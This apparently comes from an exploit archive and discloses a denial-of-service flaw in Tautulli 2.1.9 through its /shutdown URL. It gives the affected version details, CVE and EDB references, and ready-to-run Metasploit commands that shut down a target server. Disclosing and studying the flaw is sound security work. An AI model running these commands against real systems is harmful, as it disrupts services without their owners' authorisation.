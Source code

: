 # Tautulli 2.1.9 - Shutdown Denial of Service

## Overview
Tautulli versions 2.1.9 and prior are vulnerable to denial of service via the /shutdown URL.

## Affected System Information :

```
Date: 2018-12-17 
Exploit Author: Ismail Tasdelen
Vendor Homepage: https://tautulli.com/
Software : https://github.com/Tautulli/Tautulli
Product Version: v2.1.9
Platform: Windows 10 (10.0.18362)
Python Version: 2.7.11 (v2.7.11:6d1b6a68f775, Dec 5 2015, 20:40:30) [MSC v.1500 64 bit (AMD64)]
```

## Using

```
msfconsole -q
use auxiliary/dos/http/tautulli_shutdown_exec
set RHOSTS XXX.XXX.XXX.XXX
run
```

## References :

CVE:2019-19833
EDB:47785
